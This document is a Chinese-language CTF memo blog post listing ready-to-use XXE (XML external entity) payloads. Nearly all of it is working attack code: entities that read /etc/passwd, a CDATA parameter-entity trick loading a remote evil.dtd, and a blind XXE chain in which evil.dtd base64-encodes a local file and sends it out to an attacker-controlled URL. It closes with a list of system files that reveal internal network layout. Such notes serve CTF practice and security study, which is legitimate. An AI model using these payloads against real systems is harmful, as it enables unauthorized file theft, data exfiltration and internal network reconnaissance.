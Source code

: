 ```yaml
---
title: "XXE 总结笔记"
date: 2022-08-27T18:18:31+08:00
lastmod: 2022-08-27T18:18:31+08:00
draft: false
author: "X1r0z"

tags: ['ctf','xxe']
categories: ['CTF 笔记']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


记录一下常用 xxe payload

想到啥写啥, 只是一个备忘录

<!--more-->

## 引用外部实体

SYSTEM

```xml-dtd
<!ENTITY xxs SYSTEM "file:///etc/passwd" >
```

PUBLIC

```xml-dtd
<!ENTITY % remote PUBLIC "dtd" "http://127.0.0.1/evil.dtd">
```

## 常规 xxe

通用实体

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY file SYSTEM "file:///etc/passwd">]>
<test>
&file;
</test>
```

参数实体 (利用 CDATA)

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE test [
<!ENTITY % start "<![CDATA[">
<!ENTITY % xxe SYSTEM "file:///etc/passwd">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://127.0.0.1/evil.dtd">
%dtd;]>
<test>
&all;
</test>
```

evil.dtd

```xml-dtd
<?xml version="1.0" encoding="utf-8"?>
<!ENTITY all "%start;%xxe;%end;" >
```

## blind xxe

payload

```xml-dtd
<!DOCTYPE test [
<!ENTITY % remote SYSTEM "http://127.0.0.1/evil.dtd">
%remote;%int;%send;
]>
```

evil.dtd

```xml-dtd
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://127.0.0.1/?p=%file;'>">
```

## 获取内网网段

```
/etc/network/interfaces
/etc/hosts
/proc/net/arp
/proc/net/tcp
/proc/net/udp
/proc/net/dev
/proc/net/fib_trie
```